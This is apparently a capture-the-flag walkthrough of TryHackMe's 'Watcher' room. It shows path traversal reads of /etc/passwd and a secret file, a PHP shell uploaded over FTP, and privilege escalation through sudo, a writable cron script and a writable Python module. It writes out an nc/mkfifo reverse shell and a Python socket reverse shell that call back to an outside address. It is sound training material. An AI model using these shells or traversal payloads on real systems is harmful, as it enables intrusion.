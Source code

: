 # Watcher CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Watcher** CTF challenge on [TryHackMe](https://tryhackme.com/room/watcher). 
---

we see open ports 80, 22 and 21

by using feroxbuster we found our first flag !!

![ferox](imgs/ferox.png "ferox")

we also know about `/secret_file_do_not_read.txt` but we dont have access to it

we also see that there is path traversal we can go to 

```
http://10.10.184.183/post.php?post=../../../../../../etc/passwd
```

![pt](imgs/pt.png "pt")

from /etc/passwd we know about users: will, mat, toby

we can also check `=../../../../../../etc/vsftpd.conf` for ftp configuration

![pt2](imgs/pt2.png "pt2")

we can also check the secret file that we dont have permission to by going to `http://10.10.184.183/post.php?post=secret_file_do_not_read.txt` 

![pt3](imgs/pt3.png "pt3")

we found some ftp credentials 

![ftp1](imgs/ftp1.png "ftp1")

we found the second flag !!

from the ftp config file we know that we have write access and from the secret file we know where are the files stored, so we can upload reverse shell via ftp and then access it via http

![ftp2](imgs/ftp2.png "ftp2")

we use put shell.php while inside files folder and then access `http://10.10.184.183/post.php?post=../../../../../../home/ftpuser/ftp/files/shell.php`

and we got access as `www-data`

![rs1](imgs/rs1.png "rs1")

in /var/www/html we can find folder called `more_secrets_a9f10a` and there is the third flag !!

![f3](imgs/f3.png "f3")

by looking at all the files we probably need to gain access as toby first becasue he has flag4 in his home folder

![home](imgs/home.png "home")

after checking sudo -l output we can run any command as toby without password so we can use this to become toby 

![sudol](imgs/sudol.png "sudol")

```
sudo -u toby /bin/bash
```

![toby](imgs/toby.png "toby")

and we got flag 4 !!

![f4](imgs/f4.png "f4")

by looking at the cron jobs, we see that user mat will execute script from `/home/toby/jobs/cow.sh` we also can modify the file

![cron](imgs/cron.png "cron")

so i will put another rev shell into this file and then we need to wait for the cron 

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.91.59 7777 >/tmp/f" > cow.sh
</bash -i 2>&1|nc 10.14.91.59 7777 >/tmp/f" > cow.sh
```

it worked we have access as mat

![rs2](imgs/rs2.png "rs2")

we got flag 5 !!

![f5](imgs/f5.png "f5")

in scripts folder there are 2 python files `cmd.py` and `will_script.py`

![sc](imgs/sc.png "sc")

we can modify the cmd.py, we also see that will_script uses the cmd.py so we can clear the cmd.py and insert the reverse shell there

cmd.py: 

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

the command to execute by looking at the sudo -l output

![sudol2](imgs/sudol2.png "sudol2")

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 2
```

we got access as will

![rs3](imgs/rs3.png "rs3")

we got flag 6 !!

![f6](imgs/f6.png "f6")

in /opt there is backups directory

![opt](imgs/opt.png "opt")

inside we see `key.b64` file 

![64](imgs/64.png "64")

after decoding it from base64 we see RSA private key

this coulde be a root key, now we try to login as root

![root](imgs/root.png "root")

it worked we have root access and last flag !!

![f7](imgs/f7.png "f7")

# MACHINE PWNED

